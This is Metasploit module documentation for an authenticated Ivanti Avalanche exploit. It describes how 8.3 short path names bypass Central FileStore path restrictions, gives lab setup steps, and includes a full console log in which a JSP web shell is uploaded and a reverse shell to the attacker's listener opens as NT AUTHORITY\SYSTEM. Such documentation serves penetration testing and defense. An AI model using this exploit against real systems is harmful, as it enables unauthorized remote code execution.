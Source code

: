 ## Vulnerable Application

For versions of Ivanti Avalanche below `v6.4.0.186`, an authenticated administrator
can change the default path for the Central FileStore via the Configuration Settings pane.
While the default path is set to `C:\Program Files\Wavelink\Avalanche\EnterpriseServer\centralfilestore\files`,
Ivanti Avalanche restricts the path from being set to folders within the `Windows` and
`Program Files` directories. These restrictions do not account for MS-DOS (8.3) path
names, which can be used to set the Central FileStore path to the web root of the application.
This module leverages this vulnerability to upload a JSP web shell and gain RCE as `NT AUTHORITY\SYSTEM`.

### Installation Instructions

The software requires a version of MSSQL Server to be installed. The installation
instructions use MSSQL Server 2012, but 2017 worked for my setup. Ensure that
`SQL Server and Windows Authentication Mode` is selected as the default for
server authentication. This can either be done at installation or via
SQL Server Management Studio, available from https://learn.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms.

1. Open SQL Server Management Studio and connect to the instance
2. Right click on the instance and select `Properties`
3. Click the `Security` page
4. Underneath `Server Authentication`, select `SQL Server and Windows Authentication Mode` and `Ok`.
5. Open SQL Server Configuration Manager -> SQL Server Network Configuration -> Protocols for MSSQLSERVER -> TCP/IP -> Change from Disable to Enabled.
6. SQL Server Configuration Manager -> SQL Server Services -> Stop all Services -> Start just the SQL Server (MSSQLSERVER) service.
7. Go back to SQL Server Management Studio.
8. Security -> Logins -> sa -> Right click -> Select Properties -> Status -> Toggle Login to Enabled -> Ok
9. Execute the following SQL statement in SQL Server Management Studio: `ALTER LOGIN sa WITH PASSWORD = 'theSAUser123';`
10. You should now be able to run the installer and set the hostname to `127.0.0.1`, set the username to `sa`, and the password to `theSAUser123`.
11. Hitting the next button and accept the rest of the defaults.
12. When it comes to setting up the TomCat connectors, be sure to enable the HTTP and HTTPS services and adjust the ports if there are any port conflicts.
13. You should now have a complete install available.

In case the above doesn't work, instructions for installing Ivanti Avalanche can be found [here](https://forums.ivanti.com/s/article/Best-Known-Method-for-installing-Avalanche-6-x-using-MSSQL-Server-2008-R2-Express-DB-or-2012-Express-Advanced?language=en_US)

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/windows/http/ivanti_avalanche_filestoreconfig_upload`
4. Do: `set USERNAME <uname>`
5. Do: `set PASSWORD <pass>`
6. Do: `set RHOST <ip>`
7. Do: `run`
8. You should get a shell as `NT AUTHORITY\SYSTEM`.

## Options

### USERNAME

An admin user with which to log into the software

### PASSWORD

Password belonging to admin user

## Scenarios

### Ivanti Avalanche v6.3.4.153 - Windows 10 x64

```
msf6 > use exploit/windows/http/ivanti_avalanche_filestoreconfig_upload
[*] No payload configured, defaulting to generic/shell_reverse_tcp
msf6 exploit(windows/http/ivanti_avalanche_filestoreconfig_upload) > set rhost 192.168.140.150
rhost => 192.168.140.150
msf6 exploit(windows/http/ivanti_avalanche_filestoreconfig_upload) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf6 exploit(windows/http/ivanti_avalanche_filestoreconfig_upload) > options

Module options (exploit/windows/http/ivanti_avalanche_filestoreconfig_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   admin            yes       Password to log in with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.140.150  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics
                                         /using-metasploit.html
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /AvalancheWeb    yes       The URI of the Example Application
   USERNAME   amcadmin         yes       User name to log in with
   VHOST                       no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.140.1    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/ivanti_avalanche_filestoreconfig_upload) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Original FileStore config path: 'C:\Program Files\Wavelink\Avalanche\EnterpriseServer\centralfilestore\files'
[*] Changing FileStore config path to 'C:\PROGRA~1\Wavelink\AVALAN~1\Web'
[+] Successfully uploaded 'LWRrxDXWxhbz.jsp'
[*] Attempting to restore config path
[!] Tried to delete webapps/LWRrxDXWxhbz.jsp, unknown result
[*] Command shell session 1 opened (192.168.140.1:4444 -> 192.168.140.150:50249) at 2023-05-08 14:27:58 -0500
[!] Failed to restore the FileStore config path to its original path. Please manually restore FileStore config via Tools -> Central FileStore -> Configurations.


Shell Banner:
Microsoft Windows [Version 10.0.19041.630]
-----


C:\Program Files\Wavelink\Avalanche\Web>whoami
whoami
nt authority\system

C:\Program Files\Wavelink\Avalanche\Web>
```
